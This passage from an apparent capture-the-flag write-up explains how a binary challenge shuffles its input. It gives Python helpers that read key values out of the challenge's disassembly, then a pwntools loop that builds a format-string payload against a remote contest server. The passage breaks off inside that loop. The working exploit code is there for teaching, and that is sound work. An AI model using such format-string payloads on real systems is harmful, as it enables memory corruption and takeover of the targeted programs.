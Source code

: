 
Above are the eight inverse functions, e.g. if a string is shuffled with `p3`, then the binary `permute3` will unshuffle it.

All binary permute functions assume a string length of `0x200`.

`p` functions:

1. Reverse entire string.
2. Roll string left `0x100` places.
3. Roll string left `k` places.
4. Roll string left `k` places.
5. Byte swap.
6. Roll 1 right for each slice of size `k`.
7. Roll 1 left for each slice of size `k`.
8. Reverse for each slice of size `k`.


```python
def h1(p,binary):
    a = eval('binary.sym.permute' + str(p))
    b = eval('binary.sym.permute') if p == 8 else eval('binary.sym.permute' + str(p+1))
    f = binary.disasm(a,b-a).find('add    DWORD PTR [rbp-0x21c], 0x')
    if f == -1: f = binary.disasm(a,b-a).find('sub    DWORD PTR [rbp-0x21c], 0x')
    r = int(binary.disasm(a,b-a)[f:].split('\n')[0].split(', ')[1],16)
    if r == 0xffffff80: r = 0x80
    return r

def h2(p,binary):
    a = eval('binary.sym.permute' + str(p))
    b = eval('binary.sym.permute' + str(p+1))
    f = binary.disasm(a,b-a).find('mov    DWORD PTR [rbp-0x218], 0x')
    r = int(binary.disasm(a,b-a)[f:].split('\n')[0].split(', ')[1],16)
    return r
```

These hack jobs decompile the permute functions and search for the `k` values.  `h1` is used for permute 6, 7, and 8, while `h2` is used for 3 and 4.

Because of how the compiler generates the assembly, `h1` was a bit tricker when `k` was `0x80`.

> I could not think of a better way to do this.  I'm sure there are tools in Python to make this type of analysis easier, but it didn't take long to code up the above.


```python
r = remote('pwn.utctf.live', 5002)
r.sendline()

for z in range(10):
    ec = getbinary(r)
    log.info(f'ec: {ec}')

    binary = context.binary = ELF('./aeg2',checksec=False)
    offset = 8

    payload  = b''
    payload += fmtstr_payload(offset,{binary.sym.exit_code:ec})
    payload += (0x200 - len(payload)) * b'\0'

    s = [*payload]
    for i in [ x for x in binary.disasm(binary.sym.permute,binary.sym.main-binary.sym.permute).split('\n') if 'call' in x][::-1]:
        j = int(i.split()[-1],16)
        p = int(list(binary.sym.keys())[list(binary.sym.values()).index(j)][-1])
        k = 0
        if p > 5 and p < 9: k = h1(p,binary)
        if p == 3 or p == 4: k = h2(p,binary)
        s = globals()['p' + str(p)](s,k)
```